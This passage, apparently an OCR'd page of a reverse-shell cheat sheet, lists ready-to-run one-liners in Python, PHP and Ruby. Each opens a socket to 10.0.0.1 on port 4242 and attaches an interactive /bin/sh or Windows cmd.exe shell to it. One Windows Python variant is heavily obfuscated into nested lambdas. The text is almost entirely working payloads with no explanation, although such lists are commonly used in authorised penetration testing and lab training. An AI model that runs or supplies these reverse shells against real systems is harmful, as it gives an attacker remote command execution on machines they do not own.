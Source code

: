 ```python
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",4242));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

Windows only

```powershell
C:\Python27\python.exe -c "(lambda __y, __g, __contextlib: [[[[[[[(s.connect(('10.0.0.1', 4242)), [[[(s2p_thread.start(), [[(p2s_thread.start(), (lambda __out: (lambda __ctx: [__ctx.__enter__(), __ctx.__exit__(None, None, None), __out[0](lambda: None)][2])(__contextlib.nested(type('except', (), {'__enter__': lambda self: None, '__exit__': lambda __self, __exctype, __value, __traceback: __exctype is not None and (issubclass(__exctype, KeyboardInterrupt) and [True for __out[0] in [((s.close(), lambda after: after())[1])]][0])})(), type('try', (), {'__enter__': lambda self: None, '__exit__': lambda __self, __exctype, __value, __traceback: [False for __out[0] in [((p.wait(), (lambda __after: __after()))[1])]][0]})())))([None]))[1] for p2s_thread.daemon in [(True)]][0] for __g['p2s_thread'] in [(threading.Thread(target=p2s, args=[s, p]))]][0])[1] for s2p_thread.daemon in [(True)]][0] for __g['s2p_thread'] in [(threading.Thread(target=s2p, args=[s, p]))]][0] for __g['p'] in [(subprocess.Popen(['\\windows\\system32\\cmd.exe'], stdout=subprocess.PIPE, stderr=subprocess.STDOUT, stdin=subprocess.PIPE))]][0])[1] for __g['s'] in [(socket.socket(socket.AF_INET, socket.SOCK_STREAM))]][0] for __g['p2s'], p2s.__name__ in [(lambda s, p: (lambda __l: [(lambda __after: __y(lambda __this: lambda: (__l['s'].send(__l['p'].stdout.read(1)), __this())[1] if True else __after())())(lambda: None) for __l['s'], __l['p'] in [(s, p)]][0])({}), 'p2s')]][0] for __g['s2p'], s2p.__name__ in [(lambda s, p: (lambda __l: [(lambda __after: __y(lambda __this: lambda: [(lambda __after: (__l['p'].stdin.write(__l['data']), __after())[1] if (len(__l['data']) > 0) else __after())(lambda: __this()) for __l['data'] in [(__l['s'].recv(1024))]][0] if True else __after())())(lambda: None) for __l['s'], __l['p'] in [(s, p)]][0])({}), 's2p')]][0] for __g['os'] in [(__import__('os', __g, __g))]][0] for __g['socket'] in [(__import__('socket', __g, __g))]][0] for __g['subprocess'] in [(__import__('subprocess', __g, __g))]][0] for __g['threading'] in [(__import__('threading', __g, __g))]][0])((lambda f: (lambda x: x(x))(lambda y: f(lambda: y(y)()))), globals(), __import__('contextlib'))"
```

### PHP

```bash
php -r '$sock=fsockopen("10.0.0.1",4242);exec("/bin/sh -i <&3 >&3 2>&3");'
```

```bash
php -r '$sock=fsockopen("10.0.0.1",4242);$proc=proc_open("/bin/sh -i", array(0=>$sock, 1=>$sock, 2=>$sock),$pipes);'
```

### Ruby

```ruby
ruby -rsocket -e'f=TCPSocket.open("10.0.0.1",4242).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'

ruby -rsocket -e 'exit if fork;c=TCPSocket.new("10.0.0.1","4242");while(cmd=c.gets);IO.popen(cmd,"r"){|io|c.print io.read}end'

NOTE: Windows only
ruby -rsocket -e 'c=TCPSocket.new("10.0.0.1","4242");while(cmd=c.gets);IO.popen(cmd,"r"){|io|c.print io.read}end'
```
